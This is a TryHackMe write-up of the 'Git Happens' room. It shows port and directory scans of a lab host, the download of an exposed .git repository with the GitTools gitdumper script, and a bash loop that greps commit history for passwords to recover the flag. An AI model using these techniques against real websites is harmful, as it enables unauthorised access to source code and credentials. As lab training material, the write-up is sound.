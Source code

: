 ```yaml
---
title: TryHackMe - Git Happens
description: My writeup on Git Happens box.
categories:
 - tryhackme
tags: tryhackme git
---
```


![](https://i.imgur.com/ec64b32.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Git Happens**  |
| Difficulty :  | **Easy/Medium**             |   
| Play :    | [Git Happens](https://tryhackme.com/room/githappens){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Hello all, i got bored of vulnhub and i'll focus on tryhackme only. Let's start with this awesome challenge! It's all about git enumeration to find a password, let's start!

## Enumeration/Reconnaissance

Now as always let’s start with a nmap scan.

```
$ ip=10.10.18.139
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 15:51 EET
Warning: 10.10.18.139 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.18.139 (10.10.18.139)
Host is up (0.53s latency).
Not shown: 38165 filtered ports, 27369 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 62.20 seconds

$ nmap -p 80 -sC -sV -oN nmap/githappens.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 15:53 EET
Nmap scan report for 10.10.18.139 (10.10.18.139)
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git:
|   10.10.18.139:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
```

Only 1 service that's good, once we visit it we can see a login page:

![](https://i.imgur.com/PHXrxxW.png)

Tried some basic stuff like `admin:admin` etc but nothing seems to work, seems like a static page. Let's run a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w $common -x php,txt,html -o scans/gobuster.txt
/.git/HEAD (Status: 200)
```

We have a `/.git` directory! That's great, i found an awesome [gitdumper tool](https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh){:target="_blank"} to download .git repository from the webserver.

```
$ wget -q https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
$ bash gitdumper.sh http://$ip/.git/ scans/results
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating scans/results/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
...data...
```

## Getting The Flag

Perfect, now this reminds me of the DevOops box from hackthebox. We will use 2 commands:

```
git log = history of everything that happen to a repository.
git show = view details of the commit.
```

Running `git log` we can see lot of commits.

![](https://i.imgur.com/LI94paJ.png)

We will check every commit with the `git show` like this:

`$ git show 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d`

![](https://i.imgur.com/aAPkwpa.png)

This will take lot of time, so i coded a bash script to do this job! :D

```bash
for commits in $(git log | grep commit | cut -d ' ' -f2 | head -9)
do
	git show $commits | grep password
done
```

We have the flag (Note: i'll hide the flag because i want to submit the writeup to tryhackme platform):

```
$ bash flag.sh
...data...
+          password === "TRY_TO_GET_IT_ALONE"
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
